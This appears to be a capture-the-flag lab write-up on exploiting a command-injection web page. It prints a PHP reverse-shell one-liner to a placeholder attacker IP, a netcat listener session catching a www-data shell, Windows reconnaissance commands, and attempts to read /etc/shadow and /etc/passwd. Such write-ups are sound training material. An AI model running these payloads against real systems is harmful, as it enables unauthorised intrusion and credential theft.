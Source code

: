 
Windows:

```
whoami
ver
ipconfig
tasklist
netstat -an
```


![KcGizdo](https://user-images.githubusercontent.com/115979342/215329340-532eadac-f324-4a94-8e52-f98abeab54b5.png)



First use the command `ls -al` to list the contents of the current directory 

                    total 28
    drwxr-x--- 4 www-data www-data 4096 Jun  3  2020 .
    drwxr-xr-x 3 root     root     4096 May 18  2020 ..
    drwxr-x--- 2 www-data www-data 4096 May 21  2020 css
    -rw-r----- 1 www-data www-data   17 May 22  2020 drpepper.txt
    -rw-r----- 1 www-data www-data 1723 May 26  2020 evilshell.php
    -rw-r----- 1 www-data www-data 2200 May 21  2020 index.php
    drwxr-x--- 2 www-data www-data 4096 May 21  2020 js
##### What strange text file is in the website root directory?

ANSWER:drpepper.txt

useful shell:

https://highon.coffee/blog/reverse-shell-cheat-sheet/

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");
```

```
$ nc -lvp 80               
listening on [any] 80 ...
10.10.221.205: inverse host lookup failed: Unknown host
connect to [10.2.4.98] from (UNKNOWN) [10.10.221.205] 48502
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

tried /etc/shadow but permission deinied

so try the /etc/passwd

```
$ cat /etc/shadow
cat: /etc/shadow: Permission denied
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
......
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
......
```
